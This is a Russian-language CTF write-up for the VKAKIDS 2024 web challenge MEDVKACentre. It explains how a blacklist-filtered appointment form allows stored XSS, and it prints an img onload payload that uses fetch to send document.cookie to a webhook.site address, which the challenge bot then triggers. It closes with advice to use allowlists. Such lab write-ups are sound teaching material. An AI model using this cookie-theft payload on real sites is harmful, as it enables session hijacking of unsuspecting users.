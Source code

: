 ## Медицинское учреждение MEDVKACentre

|   Событие    |   Название   | Категория | Сложность |
| :----------- | ------------ | --------- | --------- |
| VKAKIDS 2024 | MEDVKACentre |    WEB    |   MEDIUM  |

### Описание

> Автор: [[mister_scaletta](https://t.me/mister_scaletta)]
>
> В медицинский центр нашей академии поступает большое количество заявок на запись, из-за чего на их рассмотрение уходит очень много времени. Попробуйте повысить приоритет своей заявки

### Решение

Дан сайт, имитирующий работу обработки и отправки заявок на прием к врачу. Имеется регистрация и авторизация на сайте, общая информация о каждом враче, 
страница профиля, на которой отображаются основные данные о пользователе и все сформированные заявки, и, непосредственно, сама страница формирования и отправки заявлений.
Наличие любого поля ввода является потенциальным уязвимым местом и при недолжном подходе к защите со стороны разработчиков, может возникнуть уязвимость на основе
инъекции кода, а именно:  SQL, XSS, XXE, etc.

- В первую очередь необходимо внимательно посмотреть на исходный код, и на наличие JS скриптов
- В исходном коде видно, что используется черный список для фильтрации от тегов, что не является безопасным решением.    
- Анализируя список тегов и  аттрибутов, мы отмечаем, что не все поддаются санитизации, а именно : img, src, onload, fetch
- Наличие, а точней отсутствие в списке фильтрации, fetch, как минимум, должно натолкнуть нас на мысль перехватить запрос, чтобы посмотреть его заголовок, например через WebHook
- Также следует обратить внимание, что тег onload срабатывает только в случае корректного URL картинки, указанного в src, поэтому необходимо проверить, чтобы она прогружалась и корректно отображалась
- Отправляя полезную нагрузку, указывая Cookie, которые мы будем перехватывать

```
<img src="https://www.w3.org/people/mimasa/test/imgformat/img/w3c_home.jpg" 
onload="fetch('https://webhook.site/935a06ea-4504-490f-bf6f-a011f4dc5184?cookie=' + document.cookie)">  
```
- Мы получаем наш Request, в котором находится токен авторизации а также Cookie, но в них нет флага.
- Помним, что у нас есть интерактивный bot, который имитирует отправку ссылок. Запускается как из контейнера, так и через netcat
- Для каждой заявки у нас формируется уникальный URL, хранящийся в db, передаем часть URL боту (той сформированной страницы, где прошло применение XSS)

```
/MzQ1My0wNS0yMzIzOjUzY2FyZGlvbG9naXN0
```


### Флаг возвращается на наш вебхук:

![](webhookflag.jpg)

### Устранение уязвимости:

Важно отметить, что использование черных списко для фильтрации от различных инъекций является крайне небезопасным решение.
Лучше всего применять принцип "по умолчанию запрещено, разрешаем только нужное", чем разрешать всё и затем пытаться закрывать уязвимости. В контексте информационной безопасности это означает использование белых списков (разрешение только заранее проверенных элементов) и черных списков (блокировка известных угроз), чтобы минимизировать риски и повысить безопасность системы.


### Флаг

```
vka{y0U_kNOw_07h3r_w4y5_t0_b1p45S_7h3_Qu9u9}
```
